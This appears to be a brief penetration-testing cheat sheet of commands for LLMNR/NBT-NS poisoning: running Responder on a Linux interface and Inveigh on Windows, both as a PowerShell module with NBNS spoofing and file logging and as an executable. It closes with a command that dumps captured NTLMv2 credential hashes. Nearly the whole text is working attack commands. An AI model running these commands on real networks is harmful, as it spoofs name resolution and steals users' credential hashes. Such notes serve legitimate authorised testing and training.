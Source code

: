 responder for linux

```shell
sudo responder -I ens224
```

responder for windows

```powershell
Import-Module .\Inveigh.ps1
```
```powershell
(Get-Command Invoke-Inveigh).Parameters
```
```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

responder as an application for windows

```powershell
.\Inveigh.exe
```
```powershell
GET NTLMV2UNIQUE
```
